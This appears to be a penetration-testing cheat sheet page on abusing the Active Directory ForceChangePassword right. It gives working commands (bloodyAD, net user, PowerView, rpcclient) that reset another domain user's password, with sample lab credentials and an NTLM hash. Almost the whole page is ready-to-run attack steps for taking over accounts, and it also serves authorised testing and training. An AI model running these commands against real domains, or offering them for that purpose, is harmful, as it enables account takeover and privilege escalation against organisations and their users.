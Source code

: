 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# ForceChangePassword

## Exploitation

<figure><img src="../../../.gitbook/assets/forcechangepassword_bh.png" alt=""><figcaption><p>Figure 1: User wley has ForceChangePassword rights over user damundsen.</p></figcaption></figure>

{% tabs %}
{% tab title="bloodyAD" %}
{% code overflow="wrap" %}
```bash
# Plaintext credentials
bloodyAD -d rebound.htb -u oorend -p '1GR8t@$$4u' --host dc01.rebound.htb set password winrm_svc 'Password123!'

# NTLM hash
bloodyAD --host 172.16.1.15 -d bloody.local -u jane.doe -p :70016778cb0524c799ac25b439bd6a31 set password <target-usr> <pass>
```
{% endcode %}
{% endtab %}

{% tab title="Native" %}
```powershell
net user <user> <pass> /domain
```
{% endtab %}

{% tab title="PowerView" %}
{% code overflow="wrap" %}
```powershell
# Create a PSCredential object for the current user
$SecPassword = ConvertTo-SecureString 'transporter@4' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)

# Set the password for the target user
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force

# Import powerview
Import-Module .\PowerView.ps1

# Change the user's password
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```
{% endcode %}
{% endtab %}

{% tab title="RPC" %}
```bash
rpcclient -U <USER> <IP>
> setuserinfo2 <USER> 23 'ComplexP4ssw0rd!'
# OR
> chgpasswd3 <USER> <OLDPASS> <NEWPASS>
```
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="BH Edge" %}
{% embed url="https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#forcechangepassword" %}
{% endtab %}
{% endtabs %}
